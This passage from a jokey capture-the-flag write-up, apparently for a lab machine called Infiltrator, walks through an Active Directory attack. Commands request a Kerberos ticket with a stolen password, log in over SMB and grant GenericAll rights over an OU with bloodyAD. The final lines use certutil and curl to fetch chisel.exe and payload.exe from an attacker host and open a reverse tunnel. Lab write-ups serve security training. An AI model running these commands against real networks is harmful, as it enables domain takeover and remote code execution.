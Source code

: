 ```console
$ getTGT.py 'infiltrator.htb/d.anderson:WAT?watismypass!' -dc-ip 10.10.11.31
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Saving ticket in d.anderson.ccache
```

And BOOM — it worked. Password valid. Ticket secured. Identity stolen. Heist soundtrack intensifies. Then we casually log in like we’ve been `d.anderson` this whole time:

```console
$ nxc smb infiltrator.htb -d infiltrator.htb -u 'd.anderson' -p 'WAT?watismypass!' -k
```

But hold up... BloodHound whispers in our ear again: **“psst... `d.anderson` got `GenericAll` over the Marketing Digital OU...”**

![](/assets/images/writeups/infiltrator/BH-Anderson.png)

Okay now we’re cooking. You know what that means? We can start **yeeting ACLs** around ike we’re modding the Minecraft server at 3AM.

> “You get admin perms, you get admin perms—oh look, the economy’s ruined!”

So we bless our old pal `l.clark` with **GenericAll** over the entire OU using `bloodyAD`:

```console
$ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -k add genericAll 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'l.clark'
[+] l.clark has now GenericAll on OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB
```

That’s it, **l.clark just went from running marketing reports to rewriting destiny.** Let the ACL shenanigans commence.

## User
Now that we’ve yeeted `GenericAll` onto the OU like it’s a cursed enchantment, our permissions have **trickled down** to lil’ `e.rodriguez` too. BloodHound’s over here grinning like:

> “Congrats, you just unlocked the side quest to **`m.harris`**.”

![](/assets/images/writeups/infiltrator/BH-Clark-to-Harris.png)


[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe